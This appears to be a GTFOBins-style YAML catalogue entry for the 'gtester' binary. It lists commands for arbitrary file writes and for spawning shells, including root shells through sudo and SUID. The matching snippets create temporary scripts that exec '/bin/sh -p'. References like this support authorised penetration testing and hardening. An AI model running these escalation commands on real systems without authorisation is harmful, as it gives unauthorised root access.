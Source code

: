 ```yaml
---
functions:
  file-write:
    - code: |
        LFILE=file_to_write
        gtester "DATA" -o $LFILE
  shell:
    - code: |
        TF=$(mktemp)
        echo '#!/bin/sh' > $TF
        echo 'exec /bin/sh -p 0<&1' >> $TF
        chmod +x $TF
        gtester -q $TF
  sudo:
    - code: |
        TF=$(mktemp)
        echo '#!/bin/sh' > $TF
        echo 'exec /bin/sh 0<&1' >> $TF
        chmod +x $TF
        sudo gtester -q $TF
  suid:
    - code: |
        TF=$(mktemp)
        echo '#!/bin/sh -p' > $TF
        echo 'exec /bin/sh -p 0<&1' >> $TF
        chmod +x $TF
        sudo gtester -q $TF
---
```


